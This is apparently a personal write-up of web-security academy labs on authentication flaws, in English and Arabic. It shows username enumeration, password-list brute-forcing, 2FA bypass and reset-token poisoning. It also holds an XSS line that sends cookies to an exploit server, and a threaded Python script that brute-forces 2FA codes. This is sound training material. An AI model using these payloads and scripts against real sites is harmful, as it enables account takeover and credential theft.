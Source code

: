 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener`` with intercept the requests to burp
2. click Forgot password
3. check email you will found the forgot password link

```url
https://0a12002d04f669c8804203db001d00de.web-security-academy.net/forgot-password?temp-forgot-password-token=gdqz0wd8rbjy5naoxidh5gh986avyo73
```
  
4. use it to change password
5. now go to **``http history ``** in burp

```http
POST /forgot-password HTTP/2
Host: 0a12002d04f669c8804203db001d00de.web-security-academy.net
Cookie: session=Jeo1T3SAvjuL5M1hPBCX7juYaqJvr11U
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a12002d04f669c8804203db001d00de.web-security-academy.net
Referer: https://0a12002d04f669c8804203db001d00de.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


username=wiener
```

> ### change **``wiener``** to **``carlos``** and put **``X-Forwarded-Host``** header to your exploit server 

```http
X-Forwarded-Host: exploit-0a4500a80403694b801a029301f3005a.exploit-server.net

username=carlos
```

see logs 

<img width="1857" height="114" alt="image" src="https://github.com/user-attachments/assets/f55d2a68-86b7-4f93-9c76-27c9f02e3031" />

```url
/forgot-password?temp-forgot-password-token=z137ea4t8oymjlqytibtexwwy0srey8z
```

> ## now add new password to carlos and login 

<img width="1375" height="668" alt="image" src="https://github.com/user-attachments/assets/04c8bafe-f425-44d3-bbc1-2da500842d18" />

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>

<img width="1480" height="804" alt="image" src="https://github.com/user-attachments/assets/558b88cf-ae67-439c-9ca5-caac98a2280e" />

```
carlos
carlos
carlos
carlos
carlos
root
root
root
root
root
admin
admin
admin
admin
admin
....
....

```

> ### THE REAL USERNAME WILL APPEAR ERROR: **`You have made too many incorrect login attempts. Please try again in 1 minute(s).`**


> ### SO USERNAME IS **`acceso`**





<img width="1543" height="738" alt="image" src="https://github.com/user-attachments/assets/2c27e85f-9d3b-4c07-b3b6-18f92347f884" />

> ### SO PASSWORD IS **`letmein`**

```
acceso : letmein
```

<img width="1779" height="845" alt="image" src="https://github.com/user-attachments/assets/e7e2dd78-6f7b-41bd-a779-ade23d51a0a8" />


  
</details>








<details>
  <summary>Lab: 2FA broken logic</summary>

<img width="1102" height="173" alt="image" src="https://github.com/user-attachments/assets/d701902a-1edd-4370-9cb7-e6df9b3dee61" />

---

1. login to your account **`wiener : peter`**
2. <img width="1296" height="613" alt="image" src="https://github.com/user-attachments/assets/df3add31-4a20-4768-a8b0-29c926dd4e32" />

```http
GET /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> ### change **`wiener`** to `carlos` and send the request

```http
Cookie: session=IVwexIpV4Hmucl1mgiflN0hO6Any4WkY; verify=carlos
```

<img width="1539" height="753" alt="image" src="https://github.com/user-attachments/assets/cacb8b0c-b2b9-448e-829a-35fd0fb62a3f" />



> ### now the website send the **`2fa`** to carlos

> #### logout form your account and login to it again but don't write your **`2FA`** code and send the request to intruder

<img width="782" height="279" alt="image" src="https://github.com/user-attachments/assets/2b05d78d-45c0-4d15-b16c-e186a99a8e89" />

```http
POST /login2 HTTP/2
Host: 0af700e5033811f784723b2500240055.web-security-academy.net
Cookie: session=U0GvMCS0BxfbwbJ8iMImN16k1qfpKw5w; verify=wiener
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0af700e5033811f784723b2500240055.web-security-academy.net
Referer: https://0af700e5033811f784723b2500240055.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers


mfa-code=123456
```

> ### change **`wiener`** to `carlos`
>
> add **`123456`** as payload and set `payload type` brute forcer 

<img width="1876" height="758" alt="image" src="https://github.com/user-attachments/assets/79203d2a-2f9d-41b1-8885-39823c515aa0" />

> ### see **``302``**

<img width="1703" height="815" alt="image" src="https://github.com/user-attachments/assets/a0105171-2c54-48e6-bce6-e145c8bd40b1" />

> click **`view response in browser`**  

<img width="1178" height="552" alt="image" src="https://github.com/user-attachments/assets/b3e1371f-3053-42ca-a6ce-f7cc89da9ccb" />

<img width="1890" height="838" alt="image" src="https://github.com/user-attachments/assets/bbdf9caa-d367-4366-8b5a-f96d9fe7e1f0" />

<img width="1417" height="822" alt="image" src="https://github.com/user-attachments/assets/884e0d3c-2b5f-4a11-9a57-718c7f7892ba" />

<img width="1565" height="749" alt="image" src="https://github.com/user-attachments/assets/7294253e-6ed6-4bc1-9061-224ac2d471b4" />

  
</details>










<details>
  <summary>Lab: Password brute-force via password change</summary>

```
old pass       neww pass 1        new pass 2
-----------------------------------------------------------------------------------
❌                🟩                 🟩        ===> will return to /login

-----------------------------------------------------------------------------------

🟩                🟩                 ❌        ===> New passwords do not match

-----------------------------------------------------------------------------------

❌                🟩                 ❌        ===> Current password is incorrect

 ```

> ### so if we don't know the old password and try to put new one will make use retrun to **`/login`** so we can't to brute force to bypass it we will found that if we put ``not matched new passwords it tell us that old passowrd is not correct`` so we can brute force 


----

<img width="1883" height="731" alt="image" src="https://github.com/user-attachments/assets/3ca615ba-e7da-4616-90d6-667fa218dc4d" />

```
username=carlos&current-password=plapla&new-password-1=123&new-password-2=1234
```

``set grep/match to New passwords do not match``

<img width="741" height="467" alt="image" src="https://github.com/user-attachments/assets/edcf439f-9e2d-4aa9-b168-8d1bad8ccc42" />

---

<img width="1511" height="719" alt="image" src="https://github.com/user-attachments/assets/17bafaf1-8162-491c-bc3d-5b99e2ce663b" />

> `found that in response say New passwords do not match that is mean the old passowrd is true put the new are not match so we know the passowrd` :

```
carlos : joshua
```

<img width="1295" height="600" alt="image" src="https://github.com/user-attachments/assets/02002043-0a12-4124-87e6-0aa249a622d0" />


  
</details>
















----- 

<details>
  <summary>🟪 Lab: Broken brute-force protection, multiple credentials per request</summary>

1. try to login as **`calos`** : 

```json
{"username":"carlos","password":"aaa"}
```

**`Invalid username or password.`**


2. try to send multiple credentials per request

```json
{

  "username":"carlos",
  "password":[
       "aaa",
       "passowrd",
       ...
    ]
}
```

## **`Full json`**

```json
{
  "username": "carlos",
  "password": [
    "123456",
    "password",
    "12345678",
    "qwerty",
    "123456789",
    "12345",
    "1234",
    "111111",
    "1234567",
    "dragon",
    "123123",
    "baseball",
    "abc123",
    "football",
    "monkey",
    "letmein",
    "shadow",
    "master",
    "666666",
    "qwertyuiop",
    "123321",
    "mustang",
    "1234567890",
    "michael",
    "654321",
    "superman",
    "1qaz2wsx",
    "7777777",
    "121212",
    "000000",
    "qazwsx",
    "123qwe",
    "killer",
    "trustno1",
    "jordan",
    "jennifer",
    "zxcvbnm",
    "asdfgh",
    "hunter",
    "buster",
    "soccer",
    "harley",
    "batman",
    "andrew",
    "tigger",
    "sunshine",
    "iloveyou",
    "2000",
    "charlie",
    "robert",
    "thomas",
    "hockey",
    "ranger",
    "daniel",
    "starwars",
    "klaster",
    "112233",
    "george",
    "computer",
    "michelle",
    "jessica",
    "pepper",
    "1111",
    "zxcvbn",
    "555555",
    "11111111",
    "131313",
    "freedom",
    "777777",
    "pass",
    "maggie",
    "159753",
    "aaaaaa",
    "ginger",
    "princess",
    "joshua",
    "cheese",
    "amanda",
    "summer",
    "love",
    "ashley",
    "nicole",
    "chelsea",
    "biteme",
    "matthew",
    "access",
    "yankees",
    "987654321",
    "dallas",
    "austin",
    "thunder",
    "taylor",
    "matrix",
    "mobilemail",
    "mom",
    "monitor",
    "monitoring",
    "montana",
    "moon",
    "moscow"
  ]
}

```


### click on response and choose show response on browzer or 

> take cookie value in response and use cookie editor extension and add cookie and visit **`/my-account?id=carlos`**

```
session=VWwWkwr7osG8fIq5lqwIrI7s0tB99OB7;
```


<img width="1824" height="835" alt="image" src="https://github.com/user-attachments/assets/d740bb54-1f52-471c-8d2f-6bf90eb92e8c" />


  
</details>



<details>
  <summary>🟪 Lab: 2FA bypass using a brute-force attack</summary>

```python
import requests
from bs4 import BeautifulSoup
from concurrent.futures import ThreadPoolExecutor, as_completed
import threading
import time

BASE_URL = "https://0ac9002b0360b47981c811be0055002a.web-security-academy.net/"
USERNAME = "carlos"
PASSWORD = "montoya"

lock = threading.Lock()
found_code = threading.Event()

# ---------------------------
# Create a fresh session
# ---------------------------
def create_session():
    return requests.Session()

# ---------------------------
# Get CSRF Token
# ---------------------------
def get_csrf(session, url):
    r = session.get(url)
    soup = BeautifulSoup(r.text, "html.parser")
    csrf_input = soup.find("input", {"name": "csrf"})
    return csrf_input["value"] if csrf_input else None

# ---------------------------
# Login with username/password
# ---------------------------
def login(session):
    csrf_token = get_csrf(session, f"{BASE_URL}/login")
    if not csrf_token:
        print("[!] Failed to get CSRF token for login.")
        return False

    data = {
        "csrf": csrf_token,
        "username": USERNAME,
        "password": PASSWORD
    }

    r = session.post(f"{BASE_URL}/login", data=data, allow_redirects=False)
    if r.status_code == 302 and "/login2" in r.headers.get("Location", ""):
        return True
    return False

# ---------------------------
# Try a single 2FA code
# ---------------------------
def try_code(code):
    if found_code.is_set():
        return None

    # Create a new session and login
    session = create_session()
    if not login(session):
        print(f"[ERROR] Failed to log in before trying code {code}")
        return None

    # Prepare 2FA data
    mfa_code = str(code).zfill(4)
    csrf_token = get_csrf(session, f"{BASE_URL}/login2")

    if csrf_token:
        data = {
            "csrf": csrf_token,
            "mfa-code": mfa_code
        }
    else:
        data = {"mfa-code": mfa_code}

    # Send the 2FA attempt
    r = session.post(f"{BASE_URL}/login2", data=data, allow_redirects=False)

    # Debugging
    if r.status_code == 302:
        location = r.headers.get("Location", "")
        if "/my-account" in location:
            with lock:
                if not found_code.is_set():
                    print(f"[+] 2FA code found: {mfa_code}")

                    # Get the session cookie
                    cookies = session.cookies.get_dict()
                    if cookies:
                        print("[+] Session Cookies:")
                        for name, value in cookies.items():
                            print(f"{name} = {value}")

                    found_code.set()
            return mfa_code

        elif "/login" in location:
            print(f"[!] Code {mfa_code} failed twice, redirected to login.")
    return None

# ---------------------------
# Brute-force 2FA
# ---------------------------
def brute_force_2fa():
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = {executor.submit(try_code, code): code for code in range(10000)}

        for i, future in enumerate(as_completed(futures)):
            if i % 50 == 0:
                print(f"[*] Tried up to: {str(i).zfill(4)}")

            result = future.result()
            if result:
                print(f"[SUCCESS] Final 2FA Code: {result}")
                return result

    print("[-] No valid 2FA code found.")
    return None

# ---------------------------
# Main
# ---------------------------
if __name__ == "__main__":
    start_time = time.time()
    brute_force_2fa()
    print(f"Finished in {time.time() - start_time:.2f} seconds")
```

<img width="907" height="582" alt="image" src="https://github.com/user-attachments/assets/ff67ed96-f33d-400b-a134-9662e8434769" />

### use cookie editor extension and put the new cookie and refresh

<img width="1593" height="651" alt="image" src="https://github.com/user-attachments/assets/8a3714a4-f388-47a9-bad0-9ad3bed35b95" />



<details>
  <summary>summary</summary>



# 2FA Bypass using Brute-force Attack

## **فكرة التحدي**
الموقع بيستخدم **2FA (Two-Factor Authentication)** بعد تسجيل الدخول.  
حتى لو عندك **username** و **password** صح (في حالتنا `carlos:montoya`)، لسه لازم تدخل كود مكوّن من **4 أرقام** يتغير بعد فترة.  

الثغرة هنا إن **صفحة 2FA نفسها قابلة لعملية brute-force**، ومفيش أي **rate limiting** أو حماية قوية تمنع المحاولات المتكررة.  
لكن في مشكلة:  
- لو جربت كودين غلط ورا بعض، الموقع بيرجعك للـ login page.
- كمان كل محاولة محتاجة **CSRF token** جديد وجلسة session جديدة.

---

## **خطوات الحل**
### 1. **تحليل الطلبات**
- لقينا إن تسجيل الدخول بيتم بـ `/login` ومعاه:
  ```
  csrf=<token>&username=carlos&password=montoya
  ```
- بعد كده بيتحول المستخدم لـ `/login2` لإدخال كود الـ 2FA، والطلب بيحتاج:
  ```
  csrf=<token>&mfa-code=1234
  ```
- طول الكود = 4 أرقام → يعني من `0000` لحد `9999`.

### 2. **تحديات واجهتنا**
- لازم نعمل **تسجيل دخول جديد** لكل محاولة عشان نجيب `session` و `csrf` صالحين.
- بعد محاولتين غلط بيتم إرجاعك للصفحة الأولى.
- سرعة التنفيذ كانت بطيئة جدًا لما بدأنا نجرب الكودات واحدة واحدة.

### 3. **الحل البرمجي**
- كتبنا **script بلغة Python** يستخدم مكتبة `requests`.
- الخطوات اللي بينفذها لكل كود:
  1. يعمل `session` جديد.
  2. يجيب **CSRF token** من `/login`.
  3. يدخل بيانات `username` و `password`.
  4. يجيب **CSRF token** جديد من `/login2`.
  5. يجرب كود 2FA.
- لو رجع الرد **302 Redirect** لـ `/my-account` → الكود صحيح ✅.

### 4. **التسريع**
- استخدمنا **ThreadPoolExecutor** لتجربة أكتر من كود في نفس الوقت.
- خلينا 10 محاولات متوازية، فده سرّع الهجوم جدًا.

---

## **النتيجة النهائية**
- الـ script نجح في إيجاد الكود الصحيح:  
  ```
  [+] 2FA code found: 0564
  ```
- بعدها قدرنا ندخل على حساب Carlos ونجيب الـ session cookie النهائية.

---




  
</details>





  
</details>










































